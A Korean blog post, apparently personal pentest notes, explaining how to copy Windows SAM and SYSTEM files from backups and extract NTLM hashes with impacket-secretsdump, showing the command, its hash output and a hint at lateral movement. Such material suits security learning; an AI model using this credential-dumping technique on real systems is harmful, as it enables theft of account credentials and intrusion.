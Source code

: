 ```yaml
---
layout: post
title: SAM, SYSTEM 덤프하기
subtitle: SAM, SYSTEM 덤프해서 크레덴셜 알아내는 방법
category: knowledge
thumbnail-img: /assets/img/404-southpark.jpg
tags: [sam, system, impacket-secretsdump]
author: Hong
---
```


# SAM과 SYSTEM

윈도우의 system32 폴더 안에는 비밀번호, NTLM 해쉬 같은 크레덴셜 정보를 담고 있는 SAM, SYSTEM같은 파일들이 있다.

민감한 파일들이라 평소에는 보호받고 있어서 복붙도 불가능하다.

하지만 백업파일로 남아있는 경우 (windows.old 같은) 이 민감한 파일들을 이용해서 유저의 크레덴셜을 추출할 수가 있다.

# SAM, SYSTEM 파일에서 정보 추출하기

kali에서 impacket-secretsdump라는 툴을 사용하기 위해 공격자 머신으로 두 파일을 옮길 필요가 있다.

파일들은 system32 폴더 안을 찾아보면 있다.

![SAM](/assets/img/knowledge/samsystem.png)

두 파일을 옮겼으면 다음의 명령어를 사용해서 크레덴셜을 추출한다.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
                                                                               Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                                                                                                                                                     [*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d                                                                        [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                       DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                              WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::                                                  Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::                                             David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::                                                 Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::                                                [*] Cleaning up...
```

그럼 위와 같이 유저명과 크레덴셜들이 출력되는데 가장 뒤에 있는 게 NTLM 해쉬다.

해쉬를 이용해서 다른 머신으로 래터럴무브먼트가 가능할지도 모른다.
